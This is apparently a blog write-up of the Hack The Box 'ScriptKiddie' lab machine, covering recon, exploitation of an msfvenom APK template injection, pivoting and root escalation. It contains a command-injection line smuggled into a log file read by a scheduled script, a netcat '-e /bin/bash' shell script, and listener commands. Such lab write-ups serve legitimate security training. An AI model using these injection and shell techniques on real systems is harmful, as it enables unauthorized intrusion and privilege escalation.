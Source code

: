 ```yaml
---
title: "HTB - ScriptKiddie"
date: 2021-06-10
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/06/SK_Logo.png"
---
```

## Intro

## Target
[HTB - ScriptKiddie](https://app.hackthebox.eu/machines/314)

## Recon
 Initial recon tells us the box is running Linux, and that's about it!

## Enum
 During the enum phase

```text
sudo nmap -sC -sV -oA scans/fast $target_ip
```
```text
# Nmap 7.91 scan initiated Mon May 17 15:00:50 2021 as: nmap -sC -sV -oA scans/fast $target_ip
Nmap scan report for $target_ip
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 17 15:00:58 2021 -- 1 IP address (1 host up) scanned in 8.98 second
```

From this we discover an `SSH` service and a `Python webserver` on port 5000. It also confirms we are facing a Linux box.

Manually browsing to the website, we find that there are 3 tools : `nmap`, `searchsploit` anf `msfvenom`. After a few tries with `ffuf`, and `gobuster`, we couldn't find anything interesting.

However, after a quick search, `msfvenom` might be [vulnerable](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

## Exploitation
Let's test our theory and see if we can get a shell.

### Getting Initial Shell
In order to do so, we will fire up `MetaSploit` and generate a payload (we could also [download](https://www.exploit-db.com/exploits/49491) a payload and slightly modify it).

We then upload the payload as an Android template and before submitting it, let's not forget to start ar listener like so : `nc -nlvp 9001` (or your usual port). Let's, now, submit the request, and you should get a shell back as use kid. From here, I like to generate an ssh key and add it to the `.ssh/authorized_keys` for easier access. 

Once this is done, I have a proper shell and way to come back easily.

Let's grab `user`'s flag:

![User Flag](/images/2021/06/SK_User_Flag.png)

### Pivoting
Now that we are kid user, we notice that there is also a pwn user that is running a script periodically. Even more interestingly, it uses a file owned by kid as input.

The script in question is located at `/home/pwn/scanlosers.sh`  and looks like below:

```text
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

After a quick look at the script, we notice that it is reads the the file `/home/kid/logs/hackers`, search for the third field on the line, and run an `nmap` scan against this field.

Now we can trick this script into running a custom command after the `nmap`'s one.

After a few trial and errors, I arrived to the following line of code :

`echo "1 2 127.0.0.1';/home/kid/nc.sh;date" > /home/kid/logs/hackers`

with `nc.sh` being:

```text
#!/bin/bash

/home/kid/nc -lvp 9001 -e /bin/bash
```

Don't forget to run a listener on port 9001, in order to grab the reverse shell. I would have wanted to do the "ssh trick" for easier access, but the `.ssh/authorized_keys` is owned by root... So I'll have to make it do with the temporary shell as `pwn`'s user.


### PrivEsc
Now that we are pwn, let's start by a simple `sudo -l` :

![pwn sudo](/images/2021/06/SK_pwn_sudo.png)

msfconsole can be run as root without password.... let's do it and cat the `root`'s flag:

![Root Flag](/images/2021/06/SK_Root_Flag.png)

## Outro
This was quite a fun box, with a few extra steps for an "easy" machine. It also shows that hackers can be hacked! ;)